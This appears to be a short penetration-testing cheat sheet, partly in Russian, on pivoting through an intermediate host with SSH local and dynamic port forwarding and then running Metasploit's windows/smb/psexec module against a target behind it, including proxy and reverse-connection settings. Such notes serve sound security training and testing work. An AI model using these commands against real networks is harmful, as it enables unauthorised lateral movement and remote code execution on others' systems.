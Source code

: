 # Pivoting with SSH Local Port Forwarding

`192.168.1.50` - промежуточный узел
`user` - пользователь промежуточного узла (обычный пользователь)
`192.168.1.20` - конечный узел
`7777` - порт локальном узле
`445` - порт на конечном узле

`ssh -L 7777:192.168.1.20:445 user@192.168.1.50`

`-L` - local port forward

`msf6 exploit(windows/smb/psexec) > set RHOST 127.0.0.1`

`msf6 exploit(windows/smb/psexec) > set RPORT 7777`

# Pivoting with SSH Dynamic Port Forwarding

`ssh -D 9999 user@192.168.1.50`

`-D` - dynamically forward ports

`msf6 exploit(windows/smb/psexec) > set Proxies socks4:127.0.0.1:9999`

`msf6 exploit(windows/smb/psexec) > set ReverseAllowProxy true`

`ReverseAllowProxy` tells Metasploit that the reverse connection will be outside of the proxy